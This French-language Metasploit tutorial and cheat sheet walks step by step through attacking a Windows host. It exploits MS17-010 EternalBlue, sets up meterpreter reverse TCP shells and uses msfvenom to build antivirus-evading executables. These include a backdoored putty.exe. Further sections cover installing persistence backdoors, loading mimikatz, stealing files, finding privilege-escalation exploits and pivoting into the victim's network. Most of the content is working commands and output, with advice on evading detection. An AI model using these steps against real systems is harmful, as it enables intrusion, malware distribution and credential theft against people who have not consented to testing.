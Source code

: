 METASPLOIT
==========

**Source** : https://k-lfa.info/metasploit-cheat-sheet/

Metasploit est un outil pour le développement et l’exécution d'exploits sur une machine distante. Des outils tierces ont été intégrés (nmap, nessus, msfvenom, ...).
De ce fait tout le process d'analyse de port, de vulnérabilité et d'exploitation peut être effectué à partir d'un seul outil. 
Metasploit a intègré aussi une base de données postgresql pour stocker les données collectées à partir de vos analyses et exploits.

Interfaces
----------

Metasploit a plusieurs interfaces :

- **msfconsole** une interface en ligne de commande interactive
- **msfcli** une interface en ligne de commande (pour automatiser)
- **Armitage** Une GUI en Java pour l'utilisation de Metasploit
- **msfweb** Interface web de l'outil

*Metasploit dispose de plusieurs types de modules important à connaître pour être efficace.*

- **Exploits** : Moyen d'infiltration sur un hôte distant (Service ou application en ligne)
- **Auxiliary** : Module de test à la vulnérabilité (Scan, analyse, DoS, ...)
- **Encoder** : ré-encodeur de payloads pour passer les antivirus et soft de sécurité
- **NOP** : Lorsqu'un  processeur charge cette instruction, il ne fait simplement rien (au  moins utile) pendant un cycle, puis avance le registre à l'instruction  suivante
- **POST** : Script utile après l'exploitation (Keylogger, hashdump, élévation de privilège, webcam, ...)
- **Payloads** : Charge (Morceau de code) utile à faire exécuter au système cible (3 types de payloads 

Payloads
--------

1. **Singles** : Petit code autonome pour une action unique
2. **Stagers** : Ouvre un canal de communication pour fournir une autre charge pour controler le système
3. **Stages** : Charge additionnelle pour controler la cible (meterpreter, VNC, ...)

*Tout ces modules / scripts sont disponibles dans /usr/share/metasploit-framework/modules/*

.. code-block:: bash
  :linenos:

  ls -l /usr/share/metasploit-framework/modules/

  auxiliary
  encoders
  exploits
  nops
  payloads
  post

Lancer metasploit
-----------------

.. code-block:: bash
  :linenos:

  systemctl posqtgresql start
  msfconsole

Exploiter une vulnérabilité
---------------------------

Admettons que nous ayons détecté une vulnérabilité avec nmap sur un hôte windows

.. code-block:: bash
  :linenos:

  $nmap --script vuln 192.168.1.103 -oN /root/VulnScan.txt

  smb-vuln-ms17-010: 

  |   VULNERABLE: 
  |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010) 
  |     State: VULNERABLE 
  |     IDs:  CVE:CVE-2017-0143 
  |     Risk factor: HIGH 
  |       A critical remote code execution vulnerability exists in Microsoft SMBv1 
  |        servers (ms17-010)

Une vulnérabilité lié à SMBv1 non à jours (ms17-010), pour l'exploiter :

.. code-block:: bash
  :linenos:

  $search ms17-010

  Matching Modules

  Name                                           Disclosure Date  Rank     Check  Description

  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
  auxiliary/scanner/smb/smb_ms17_010                              normal   Yes    MS17-010 SMB RCE Detection
  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution

Les modules "auxiliary" ne sont que des scans, ayant déjà identifié la vulnérabilité nous utiliserons "l'exploit"

.. code-block:: bash
  :linenos:

  $use exploit/windows/smb/ms17_010_eternalblue
  $show options
  
  Name           Current Setting  Required  Description
     ----           ---------------  --------  -----------
     RHOST                           yes       The target address
     RPORT          445              yes       The target port (TCP)
     SMBDomain      .                no        (Optional) The Windows domain to use for authentication
     SMBPass                         no        (Optional) The password for the specified username
     SMBUser                         no        (Optional) The username to authenticate as
     VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
     VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.
  
  $set RHOST 192.168.1.103

En lançant simplement l'exploit nous arrivons sur la cible avec un shell DOS sous **AUTHORITE NT\System**

.. code-block:: bash
  :linenos:

  $exploit
  
  C:\Windows\system32>
  C:\Windows\system32>whoami
  
  AUTHORITE NT\System

Nous somme connecté sur la machine distante mais impossible de charger des modules depuis metasploit pour cela ajoutez un payload reverse tcp dans l'exploit

.. code-block:: bash
  :linenos:

  $show payloads
  
  Compatible Payloads
  
  Name                                        Disclosure Date  Rank    Check  Description
  
  generic/custom                                               normal  No     Custom Payload
  generic/shell_bind_tcp                                       normal  No     Generic Command Shell, Bind TCP Inline
  generic/shell_reverse_tcp                                    normal  No     Generic Command Shell, Reverse TCP Inline
  windows/x64/meterpreter/reverse_https                        normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
  windows/x64/meterpreter/reverse_named_pipe                   normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse Named Pipe (SMB) Stager
  windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
  
  $set payload windows/x64/meterpreter/reverse_tcp
  $exploit
  
  
  meterpreter>

.. note:: Dans ce cas la c'est la victime qui se connecte sur notre machine, le principe est maintenant d’exécuter de la post exploitation

.. attention:: Attention l’exécution de payload peut être détecté avec l'anvirus/antimalware (l'efficacité est de le tester avant sur plusieurs antivirus)

Bypass antivirus
----------------

Metasploit embarque la possibilité de modifier un payload et de le rendre plus difficilement détectable par les antivirus. L'outil se nomme msfvenom

.. code-block:: bash
  :linenos:

  $msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.10 LHOST=443 -e x64/xor_dynamic -i 3 -f exe -o Surprise.exe
  
  -p est le payload à injecter dans l\'executable LHOST est l\'hôte auquel la victime se connectera / LPORT est le port auquel la victime se connectera
  -e est l\'encodage du payload (x64/xor_dynamic dans l\'exemple)
  -i nombre d\'iteration (nombre de ré-encodage du payload)
  -f est le format du fichier généré (exe dans l\'exemple)
  -o Surprise.exe est le fichier généré

Il est aussi possible d'injecter une charge dans un soft déjà existant (par exemple putty)

.. code-block:: bash
  :linenos:

  msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.10 LPORT=443 --encrypt aes256 -e x64/xor_dynamic -i 3 -f exe -x putty.exe -k -o PuttyMalicious.exe
  
  --encrypt pour encrypter le payload (Peut causer des instabilités)
  -x Fichier source auquel injecter le payload
  -k pour preserver le code du fichier source (pour qu\'il puisse fonctionner en plus du payload)

.. note:: Le nombres d'itérations, l'encodage, encryptage et le payload jouerons sur l’efficacité de l'attaque. La pluparts des payloads restent quand même connus des gros antivirus (windows defender, avats, kaspersky, ...)

La meilleure solution est de créer son propre payload pour avoir une signature non connu

De nombreux outils existent pour générer des payloads :

- Veil-Evasion https://github.com/Veil-Framework/Veil-Evasion
- Phantom-Evasion https://github.com/oddcod3/Phantom-Evasion
- Hercules https://github.com/EgeBalci/HERCULES
- Fatrat https://github.com/Exploit-install/TheFatRat
- Unicorn https://github.com/trustedsec/unicorn
- Shellter  ``apt-get install shellter``

Post exploitation
-----------------

La post exploitation permet de charger des modules depuis metasploit (mimikatz, powershell, python, sniffer, ...) ou même de faire agir la victime en point de pivot pour relayer nos attaques sur son réseau local

.. code-block:: bash
  :linenos:

  $search post       #Lister les modules (creds, powershell, webcam, ...)
  $run post/windows/manage/change_password      #Execute le module change password
  $run persistence    #Installe une backdoor persistente sur la victime
  
  $load powershell            #Charger le module powershell sur la victime
  $powershell_shell           #Pour lancer un shell powershell sur la victime
  $powershell_import Owned.ps1        #Charge et execute le script Owned.ps1 sur la victime
  
  $load mimikatz      #Charge le module mimikatz sur la victime

De nombreuses commandes Meterpreter sont disponible (voir l'aide)

.. code-block:: bash
  :linenos:

  lls     #Lister l'emplacement de la machine local
  lcd     #Se déplacer dans l'arborescence de la machine local
  cd      #Se deplacer dans la machine distante
  ls      #Lister l'arborescence de la machine distante
  download secret.txt      #Télécharger le fichier secret.txt de la machine distante
  upload virus.exe         #Envoyer le fichier virus.exe sur la machine distante
  execute virus.exe        #Exectuer virus.exe sur la machine distante
  migrate 308              #Injecter le meterpreter dans le PID 308

.. note:: A savoir que lorsque vous migrez le meterpreter dans un autre processus, si celui-ci est un processus d'un utilisateur standard, le meterpreter aura les droits de l'utilisateur et plus de AuthoriteNT

.. note:: Savoir aussi que si l'utilisateur ferme le processus dans lequel vous êtes injecté, vous perdrez le meterpreter (Conseil injectez le dans les processus systèmes)

Dans le cas ou notre meterpreter ne donnerai pas accès au compte administrateur ou systeme, l'outil Windows-Exploit-Suggester permet de rechercher des exploit en local sur la victime

https://github.com/GDSSecurity/Windows-Exploit-Suggester

.. code-block:: bash
  :linenos:

  #Sur la victime
  
  meterpreter > shell  # Obtenir un shell sur la vicitme
  meterpreter > systeminfo > systeminfo.txt # Récupérer les infos system (KB, info du system)
  meterpreter > download systeminfo.txt  #Telecharger le fichier sur notre mahchine
  meterpreter > rm systeminfo.txt  #Supprimer le fichier sur la machine victime
  
  #Sur notre machine
  python windows-exploit-suggester .py update    #Télécharge le dernier xls d'exploit windows à jours
  python windows-exploit-suggester.py --database 2019-02-05-mssb.xls --systeminfo systeminfo.txt  #Compare le systeminfo généré avec la base d'exploit téléchargée
  
  [M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
  [*]   https://github.com/foxglovesec/RottenPotato
  [*]   https://github.com/Kevin-Robertson/Tater
  [*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
  [*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
  
  [E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
  [*]   Windows 7 SP1 x86 - Privilege Escalation (MS16-014), https://www.exploit-db.com/exploits/40039/, PoC
  
  [E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
  [*]   Windows 7 SP1 x86 - Privilege Escalation (MS16-014), https://www.exploit-db.com/exploits/40039/, PoC
  
  [E] MS16-056: Security Update for Windows Journal (3156761) - Critical
  [*]   https://www.exploit-db.com/exploits/40881/ -- Microsoft Internet Explorer - jscript9 JavaScript Stack Walker Memory Corruption (MS15-056)
  [*]   http://blog.skylined.nl/20161206001.html -- MSIE jscript9 JavaScript Stack Walker memory corruption

Créer un point de pivot
-----------------------

L'objectif à travers un point de pivot est d'accéder à des ressources sur un réseau distant.

Une machine infecté et connecté via reverse shell sert de point de relais pour communiquer avec les machines de son réseau. Elle permettra de relayer nos attaques sur son réseau.

.. code-block:: bash
  :linenos:

  #en msfconsole
  
  use auxiliary/server/socks4a
  set LHOST 127.0.0.1  #Utiliser 127.0.0.1 est plus stable
  set LPORT 9050   #Par défaut en 1080 le modifier n'est pas obligatoire
  
  #en meterpreter
  
  run auxiliary/server/socks4a

Ce module ouvre un proxy sur la machine attaquante, pour router le traffic vers la victime.

.. code-block:: bash
  :linenos:

  #en meterpreter ou msfconsole
  
  run post/multi/manage/autoroute
  
  [+] Route added to subnet 192.168.1.0/255.255.255.0 from host\'s routing table

Pour relayer les attaques via le proxy (Il faut que le proxy soit configurer vers le même port configuré dans LPORT précédemment)

``proxychains nmap 192.168.1.0/24 -p 445 -script vuln -oN ScanRemoteNet.txt``

Il est possible d'utiliser le navigateur dans le réseau LAN distant. Configurer le navigateur avec le proxy installé précédemment.

Metasploit Cheat-sheet
----------------------

Changer de session & Jobs

.. code-block:: bash
  :linenos:

  #En meterpreter
  
  jobs        #Afficher les jobs en cours (proxy, ...)
  kill 3      #Arréter le jobs 3
  background  #revenir à la msfconsole
  
  #En msfconsole
  sessions    #Lister les sessions actives
  sessions 3  #Revenir sur le meterpreter de la session 3

Récupérer une connexion d'un hôte infecté

.. code-block:: bash
  :linenos:

  $msfconsole   #Lancer metasploit
  $set payload windows/x64/meterpreter_reverse_tcp    #Payload utilisé dans l'infection (meterpreter_reverse_tcp dans l'exemple
  $set LHOST 192.168.1.11   #Votre IP local ou publique si attaque depuis internet
  $set LPORT 443    #Port local sur lequel se connecte la victime
  $run
  
  [*] Started reverse TCP handler on 192.168.1.11:443 
  [*] Meterpreter session 1 opened (192.168.1.11:443 -> 192.168.1.29:58718) at 2019-02-05 20:37:04 +0100

Module de reconnaissance

.. code-block:: bash
  :linenos:

  #En meterpreter>
  
  #Detecter les hôtes du LAN via ARP
  run post/windows/gather/arp_scanner 
  
  
  #En msfconsole
  
  #Scanner le LAN en port 445
  use auxiliary/scanner/portscan/tcp
  set RHOSTS 192.168.1.0/24
  set RPORTS 445
  exploit
  
  #Detecter les hôtes cisco
  use auxiliary/scanner/http/cisco_device_manager
  set RHOSTS 192.168.1.0/24
  exploit

Navigation local / cible

.. code-block:: bash
  :linenos:

  #En meterpreter
  
  lls  #lister le dossier current en local
  lcd  #Ce déplacer dans les dossier en local
  lpwd #Afficher l'emplacement en local
  
  ls # Lister l'arborescence sur la cible
  cd # ce déplacer dans l'arbo de la cible
  pwd # afficher l'emplacement actuel de la cible
